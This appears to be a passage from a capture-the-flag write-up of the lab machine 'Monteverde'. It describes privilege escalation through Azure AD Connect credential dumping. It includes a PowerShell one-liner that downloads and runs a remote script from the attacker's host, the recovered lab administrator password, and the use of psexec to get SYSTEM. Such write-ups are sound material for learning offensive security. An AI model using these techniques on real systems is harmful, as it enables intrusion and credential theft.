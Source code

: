 
### Privilege Escalation 

- From enumeration we notice that the user mhope is a member of the Remote Management Group, and Azure Admins group. Since he is a member of the member of the Azure Admins group. [There is an amazing privilege escalation technique explained in this github repo that will allow him to run a powershell script and dump the credentials of the administrator account](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1). 

- I created the script and ran the following command to retrieve it from my attack box and run it on the target and got the admin credentials.


iex(new-object net.webclient).downloadstring('http://10.10.14.240/azuread_decrypt_msol.ps1')

- Running the script gives me Administrator password

Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!


![AD Enumeration](/Monteverde/images/admin.png) 


- Admin Creds

- Username: administrator
- Password: d0m@in4dminyeah!


![Priv Esc](/Monteverde/images/root.png) 

- Confirming through crackmapexec we can root the box with either psexec or evil-winrm. I'm going to try and just do it through psexec since I haven't used it yet.


![Priv Esc](/Monteverde/images/privesc.png) 

- running psexec with administrator and the credentials that we found gives us a user running as NT Authority / SYSTEM. And we can grab the root flag. 
